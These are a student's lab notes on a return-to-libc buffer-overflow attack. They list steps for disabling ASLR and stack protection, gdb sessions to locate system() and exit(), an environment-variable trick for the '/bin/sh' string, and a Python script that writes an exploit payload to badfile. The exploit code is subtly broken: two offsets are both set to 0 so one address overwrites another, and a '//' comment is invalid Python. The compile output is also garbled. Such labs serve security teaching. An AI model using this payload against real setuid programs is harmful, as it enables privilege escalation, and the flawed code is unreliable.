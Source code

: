 # Return-to-Libc Lab
## Lab Setup
- turn off countermeasures
    1. no ASRL: `$ sudo sysctl -w kernel.randomize_va_space=0`
    2. no SafeGuard: add `-fno-stack-protector` flag when compiling
    3. **non-executable** stack: add `-z noexecstack` flag when compiling
    4. replace `/bin/dash`, which has a countermeasure to revoke privilege when running `Set-UID` programs: `$ sudo ln -sf /bin/zsh /bin/sh`

## Task 1: Finding out the Addresses of `libc` Functions
- in Linux, when a program runs, the `libc` library will be loaded into memory
- when ASRL is turned off, for the same program, the library is always loaded in the same memory address (for the same program, if we change it from a `Set-UID` program to a normal program, the `libc` may not be loaded to the same location)
- use the `gdb` to debug the program,  and find the address of `system()`
    - commands
        - `run` execute the target program once
        - `p` (or `print`) print out the address of `system()` and `exit()` functions
        - `gdb -q retlib` debug `retlib` in quite mode
    - open `retlib` with gdb, and set a break point at `main()`, `run`, the program will pause when it reaches `main()`, and the `libc` will be loaded, then use `p` to print out the address of `system()` and `exit()`
        ```
        $ gdb -q retlib
        Reading symbols from retlib...
        (No debugging symbols found in retlib)
        gdb-peda$ break main
        Breakpoint 1 at 0x12ef
        gdb-peda$ run
        Starting program: ...
        ...
        Breakpoint 1, 0x565562ef in main()
        gdb-peda$ p system
        $1 = {<text variable, no debug info>} 0xf7e12420 <system>
        gdb-peda$ p exit
        $2 = {<text variable, no debug info>} 0xf7e04f80 <exit>
        gdb-peda$ quit
        $
        ```
    - we can also run `gdb` in batch mode, i.e., put `gdb` commands in a file
        - `gdb -q -batch -x gdb_command.txt ./retlib`
        - `gdb_command.txt`
            ```
            break main
            run
            p system
            p exit
            quit
            ```
## Task 2: Putting the Shell String in the Memory
- goal: jump to `system()` and get it to execute an arbitrary command, e.g., `"/bin/sh"`
- use environment variable
    - when running a program from a shell prompt, it actually spawns a child process to execute the program, and all the exported shell variables become the environment variables of the child process
    - create a shell variable `MYSHELL`: `$ export MYSHELL=/bin/sh`, we can check this via `env | grep MYSHELL` or `printenv MYSHELL` or `printenv | grep MYSHELL`
    - find the location of this variable in the memory
        - `prtenv.c`
            ```
            ...
            void main() {
                char *shell = getenv("MYSHELL");
                if(shell) {
                    printf("%x\n", (unsigned int) shell);
                }
            }
            ```
        ```
        $ gcc -o prtenv prtenv.c
        ffffe3e5
        $ gcc -o prtenv prtenv.c
        ffffe3e5
        ```

## Task 3: Launching the Attack
- when we run `retlib` with a benign input, we can know the value of `ebp` and `&buffer`
    ```
    Address of buffer[] inside bof(): 0xffffcd60
    Frame Pointer value inside bof(): 0xffffcd78
    ```
- **IMPORTANT**: if we use `p $ebp` to check the value of `ebp` in `gdb` when in `bof()`, we will get a different value, because `gdb` run this program with its absolute path, and `gdb` sets some extra environment variables
- create the payload in `badfile` with `exploit.py`
    ```
    #!/usr/bin/env python3
    import sys

    buff_addr = 0xffffcd50
    ebp       = 0xffffcd68

    content = bytearray(0xaa for i in range(300))

    X = 0
    sh_addr = 0xffffe3e5 # The address of "/bin/sh"
    content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')

    // return to system()
    Y = ebp - buff_addr + 4
    system_addr = 0xf7e12420 # The address of system()
    content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')

    Z = 0
    exit_addr = 0xf7e04f80 # The address of exit()
    content[Z:Z+4] = (exit_addr).to_bytes(4, byteorder='little')
    ```
- stack before return to `system()`
    ```
    High Memory Addresses
    |          +---------------------+ 
    |          |        ...          |
    |          |---------------------|    
    |          |       sh_addr       |
    |          |---------------------|
    |          |      exit_addr      |
    |          +---------------------+ 
    |          |     system_addr     | (return address)
    |          +---------------------+
    |          |      old ebp        |
    |          |---------------------| <---- ebp
    |          |        ...          |    
    |          +---------------------+
    |          |    Unused Space     |
    |          +---------------------+
    Low Memory Addresses
    ```

- stack before return to `system()`
    ```
    High Memory Addresses
    |          +---------------------+ 
    |          |        ...          |
    |          |---------------------|    
    |          |       sh_addr       |
    |          |---------------------|
    |          |      exit_addr      | (return address)
    |          +---------------------+
    |          |        ...          |    
    |          +---------------------+
    |          |    Unused Space     |
    |          +---------------------+
    Low Memory Addresses
    ```